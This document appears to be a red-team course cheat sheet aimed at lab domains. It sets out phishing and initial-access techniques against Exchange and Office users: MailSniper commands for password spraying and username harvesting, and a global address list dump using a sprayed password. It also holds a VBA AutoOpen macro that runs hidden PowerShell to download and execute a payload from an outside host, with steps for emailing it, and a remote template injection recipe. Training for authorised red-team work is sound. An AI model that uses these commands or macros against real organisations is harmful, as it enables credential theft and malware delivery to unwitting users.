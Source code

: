 # Spraying passwords with MailSniper

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1

Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

---

# Enumerate NetBIOS

```bash
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
```

---

# Finding valid usernames (https://gist.github.com/superkojiman/11076951)

With a list of usernames like so:
Bob Farmer
Isable Yates
John King

```bash
./namemash.py names.txt > possible.txt

Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
```

---

# Download Global Address List (Credentials needed)

```bash
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```

---

# Checking the Zone of a file

```bash
Get-Content .\test.txt -Stream Zone.Identifier
```

---

# VBA Macro with Cobalt

1. Create a http listener
2. Go to Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for your HTTP listener
3. Copy the powershell command to a VBA macro

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub
```

4. Add the macro to a file ended with `.doc`
5. We can now pass the file as an attachment on an email (preferred way),
   or host the file "Site Management > Host File"

---

# Remove template injection

1. Create a http listener
2. Go to Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for your HTTP listener
3. Copy the powershell command to a VBA macro

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub
```

4. Add the macro to a file ended with `.dot`
5. Serve this file via "Site Management > Host file" and give it 'http://nickelviper.com/template.dot'
6. Create another file ending with `.docx` and right click it. Then 7-zip > Open archive
7. Navigate to word > \_rels, and edit `settings.xml.rels`
8. Add our served file as the "Target" => Target="http://nickelviper.com/template.dot"

Optional (https://github.com/JohnWoodman/remoteinjector)

```bash
python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
```

---

# HTML Smuggling

(Not recommeded because it changes the zone of the downloaded file to zone 3)

```bash
https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37172329-html-smuggling
```
